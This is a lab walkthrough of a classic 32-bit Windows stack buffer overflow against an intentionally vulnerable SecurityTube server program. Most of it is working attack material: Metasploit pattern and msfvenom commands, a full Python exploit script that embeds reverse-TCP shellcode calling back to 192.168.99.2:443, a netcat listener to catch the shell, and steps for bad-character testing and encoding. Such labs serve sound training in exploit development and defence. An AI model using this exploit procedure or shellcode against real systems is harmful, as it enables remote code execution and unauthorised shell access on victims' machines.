



# 32-bit Stack-based Buffer Overflow

This is a quick lab to capture a high level process of how to exploit a primitive stack-based buffer overlow vulnerability. This lab is based on an intentionally vulnerable 32-bit Windows program provided by [security tube](http://www.securitytube.net/video/1398).

## Overview

### Vulnerability

At a high level, exploiting a buffer overflow boils down to the following key points:

* Attacker overflows vulnerable program's memory buffer by writing to it more data \(including the malicious code, usually shellcode\) than the program anticipated, but did nothing \(bound checking\) to prevent it from happening;
* When a memory buffer is overflowed, the adjacent memory in the vulnerable program is replaced with malicious content supplied by an attacker;
* Attacker subverts the vulnerable program and forces it to execute the malicious code, which was written to the compromised program's memory, when the program's memory buffer was overflowed;
* The vulnerable program starts executing malicious code, and depending on what the vulnerable program is/what security context it runs in and whether it is being exploited locally or over the network, results in attacker escalating their privileges on an already compromised system or provides them with a remote access to system being exploited.

### Lab

In this lab, we're going to exploit the vulnerable program and make it execute our shellcode by following the below process:

* Send some data to the vulnerable program and observe it crash;
* Inspect the program's registers at the time of the crash, focusing on EIP and ESP;
* Send some more data to the vulnerable program, observe it crash and inspect the registers;
* Determine if we can take control of / overwrite the EIP register;
* Determine how much data we need to send to the vulnerable program, before we can overflow its stack and get control of the EIP;
* Determine where our shellcode is written to, which as we will see soon, is pointed to by the ESP;
* Find a memory address that contains the instruction `jmp esp`, so that we can point the EIP to this address, so that the vulnerable program transfers control to our shellcode \(pointed to by the ESP\) when the exploit is triggered;
* Overflow the vulnerable program's stack with a buffer larger than it expected. The buffer will be crafted in such a way, that once in the vulnerable program's memory, it will have:
  * Written our shellcode;
  * Overwritten the function's return address in the stack with a memory address that contains the  `jmp esp` instruction, which will force the vulnerable program to jump to our schellcode, once it tries to return after processing our supplied ovesized buffer;
* Profit - receive a reverse shell from the vulnerable server.

Visually, a simplified diagram of the stack overflow vulnerability that we will exploit / vulnerable program's memory layout before and after the overflow would look something like this:



For the sake of simplicy of this lab, the vulnerable program:

* does not filter out any characters in the shellcode \(no need to deal with bad characters\)
* does not have a size constraint for our shellcode
* does not implement/enforce any memory protections

Additionally, the shellcode in the vulnerable program is written to a memory address pointed to by the ESP register.


## Observing the Crash

As a first test, let's send a string `hello` to the vulnerable program [`server-memcpy.exe`](https://github.com/mantvydasb/c-playground/raw/master/SecurityTube/RemoteBufferOverflow/Server-Memcpy.exe) running on `192.168.99.3:10000`:

```csharp
"hello" | nc 192.168.99.3 10000
```



The application crashed and at this time, its Execution Instruction Pointer \(EIP\) points at `778F54EE`:


Let's see if we can get contol over the EIP register and try again by sending 200 `A` characters:

```csharp
python -c "print('A'*200)" | nc 192.168.99.3 10000
```

After the program crashes, we see that the EIP still points to `778F54EE`, however the ESP suggests that the buffer we sent \(200 of `A`/`0x41`\) to the vulnerable program, may be overwriting stack's conent with our buffer as we can see in the below screenshot in blue \(and more of it on the left, where we see a bunch of `A` characters in the memory dump\):


If we repeat the test with 270 `A` characters, we see that the EIP now points to `0A0D4141`. Note that the last two bytes are `AA` \(`4141`\) - this suggests that we may be able to take control of the EIP and make it point to any arbitrary memory address within this process's memory, for example, a memory address that contains our shellcode \(soon\):


As a final test, let's send 300 `A`'s + `END!`:

```csharp
python -c "print('A'*300 + 'END!')" | nc 192.168.99.3 10000
```

...and observe the registers after the crash:


Note the following:

* ESP \(green\) points to `0060FB20`, which contains `41414141` \(AAAA\);
* EIP \(red\) points to `41414141`;
* `0060FB3C` \(blue\) contains `21444E45`, which is our string `END!`.

Based on the above:

* We have successfully smashed the stack, overwritten the function's return address and confirmed that we have control over the EIP register \(we don't know the EIP's offset yet, but we will try to find it next\), which we can now point to any arbitrary memory address. In this case, it points to `41414141`, because we sent in a bunch of `0x41` bytes;
* We can hypothesize that ESP \(`0060FB20`, green\) is where we would need to write our shellcode and somehow point the EIP to, in order for the vulnerable program to execute it. Let's call this a hyphothesis 1, so we can reference and confirm it later;
* We can see that the the direction of the overflow is from the lower memory addresses to higher.

## Finding EIP Offset

Based on the information observed until now, we've determined that we should be able to overwrite the EIP when sending 200-300 bytes to the vulnerable program. Let's see how we can find the EIP offset - that is, how many bytes exactly we need to send in, before we can overwrite the EIP with a memory address of our choice.

Let's generate a string pattern of 300 characters using a metasploit utility `pattern_create`:

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```


Send that pattern to the vulnerable program:

```text
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" | nc 192.168.99.3 10000
```

...and observe the crash again:


From the above screenshot, note that:

* EIP points to `6A413969` \(red\), which is part of the string pattern we submitted to the vulnerable program;
* ESP points to `0060FB20` \(green\) - is indeed the memory address that we should place our shellcode. This confirms our hypothesis 1 that we raised earlier. This means that we will need to ensure that we overwrite the function's return address \(the address it wants to return to when it finishes processing our oversized malicious buffer\) with a memory address that contains the `jmp esp` instruction \(we will find it next\), which when executed, would make the program jump to our shellcode \(because it's pointed to by the ESP\) and execute it.

Now we have all the information we need in order to find the actual number of bytes we need to send to the vulnerable program, before we can overwrite the EIP and make it point to the `0060FB20` \(ESP\), as we've just learned above. 

Let's use another metasploit utility `pattern_offset` for the job and supply it with the value seen in the EIP register at the time of the crash - `6A413969` \(remember, this is part of that string pattern we sent to the vulnerable program\):

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6A413969
```

This tells us that the EIP is at offset 268 and that we need to send 268 `A`'s before we can overwrite it:


Let's test it by sending 268 \* `A` + `RETN` +`SHELLCODE`\* 10 - and, if our EIP offset calculations are correct, after the crash, the EIP should point to the string `RETN`:

```csharp
python -c "print('A'*268 + 'RETN' + 'SHELLCODE'*10)"
```

...and observe the crash:


Note the following:

* The EIP now points to `4E54455`2 \(red\), which is our string `RETN` in hex;
* Immediately after the `RETN`, at `0060FB20` \(green, pointed to by the ESP\), we see our string `SHELLCODE` \(green\) repeated 10 times.


The above further confirms that we know how to control EIP and that our schellcode is pointed to by the ESP.


## Finding JMP ESP

Now, that we know where our shellcode is going to be located and how to control the EIP register, we need to overwrite the EIP with a memory address that points to the start of our shellcode. Since, our shellcode is pointed to by the ESP,  it means that we could overwrite the EIP with a memory address that contains the `jmp esp` instruction that would make the vulnerable program jump to the ESP and execute our shellcode after it completes processing our malicious buffer and wants to return to the caller function.

To find a memory address containing `jmp esp` instruction, we can simply use Ctrl+F `jmp esp` in xdbg and discover that `jmp esp` is located in `7798BD1B` inside `ntdll.dll`:




Memory address for instruction set `jmp esp` on your system may be different as ntdll.dll is updated between different Windows versions.



Remember the memory address of `jmp esp` - `7798BD1B` - we will need it soon for the exploit code.


## Exploit Skeleton

Let's now build a quick python exploit code skeleton:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"RETN"

# shellcode
buf += b"SHELLCODE"

# send payload
sock.send(buf)
sock.close()
```

...and execute it against the vulnerable server to confirm everything still works as expected and that we see:

* the `RETN` value in the EIP register 
* the string `SHELLCODE` next to the `RETN`


### Generating Shellcode

Let's generate a shellcode for a simple reverse tcp shell \(it will connect back to `192.168.99.2:443`\) for python:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python
```


Add it to the python exploit skeleton and replace the `RETN` on line 11 with the memory address containing `jmp esp`, which is `7798BD1B` \(as usual, mind the endianness\) in my case:


```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with address containing jmp esp instructions (inside ntdll.dll in my case)
buf += b"\x1b\xbd\x98\x77"

# shellcode
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x63\x02\x68"
buf += b"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# send payload
sock.send(buf)
sock.close()
```


## Executing Exploit

Let's now fire up a netcat listener on `192.168.99.2:443` to catch a reverse shell incoming from the vulnerable server `192.168.99.3`:

```text
nc -lvp 443
```

...and fire our exploit at the server running the vulnerable program:

```text
python exploit.py
```

Below shows how netcat receives a reverse shell, concluding that the vulnerable program's stack was successfully overflowed and program's execution flow was subverted, which resulted in our shellcode getting executed, giving us the reverse shell:



## Finding Bad Characters

Bad characters in the context of buffer overflow exploitation refers to the characters that cannot be used in the shellcode as they would interfere with the vulnerable program and most likely make it crash.

Although in this lab we did not have to deal with bad characters, below provided are some guidelines on the general process of how to identify bad characters and how to deal with them.

### Generate Bad Characters String

Generate a list of all possible bad characters using bash:

```bash
for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

...which results in the following:

```text
x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```


### Testing for Bad Characters

Update the exploit to ensure it sends that string of bad characters as the payload:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"\x1b\xbd\x98\x77"
# 7798BD1B

# bad character testing payload
buf += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# send payload
sock.send(buf)
sock.close()
```

...test the exploit against the target and investigate the memory dump of the memory location pointed to by the EIP after the crash:


Note the memory dump in blue - it contains our string for testing bad characters that we sent to the vulnerable program as our payload. Since we can see all the bytes ranging from 0x00 through to 0xFF in the correct order with no bytes missing or mangled, this confirms that we did not have to deal with any bad characters with this vulnerable program.

If we, however, spotted that a character, say, `0x0A` was replaced with some random character, say, `0xE3`, this would indicate that `0x0A` is a bad character:


Once a bad character is identified: 

* In the exploit code, replace that bad character with a known good character - any character going before it, that did not get modified by the vulnerable program. In my case, that could be any byte from 0x01 to 0x09. I chose 0x09 as shown in green in the above screenshot... or you could simply remove the bad character from the string for testing bad characters;
* Fire the exploit against the target again;
* Inspect the memory dump again to see if there are any other bad characters;
* Repeat the process until all bad characters are identified.

### Encoding Shellcode

Once all the bad characters are identified, we need to ensure that our shellcode that we send to the vulnerable program does not contain them. When generating shellcode with `msfvenom`, we can give it a list of bad characters by specifying the `-b` flag and those characters will be encoded / replaced by others. In my case, I'd invoke `msfvenom` with `-b 0xa`:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python -b 0x0a
```

Below shows how `msfvenom` fails a couple of times to encode the `0x0a` byte when using `shikata ga nai` encoder, but succeeds eventually when using the `call4 dword xor`. Assuming `0x0a` is the only bad character, the shellcode is now bad character-free and ready to use:


My notes about writing a custom shellcode encoders and decoders:



Could also be interested in:



## References



